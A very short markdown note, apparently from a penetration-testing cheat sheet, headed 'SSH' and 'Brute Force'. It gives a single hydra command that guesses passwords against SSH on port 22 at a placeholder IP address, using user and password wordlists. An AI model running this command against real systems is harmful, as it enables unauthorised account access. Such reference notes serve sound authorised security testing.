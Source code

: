 # SSH

## Brute Force

```
hydra IP_ADDRESS ssh -s 22 -P passwords.txt -L users.txt -e nsr -t 4
```
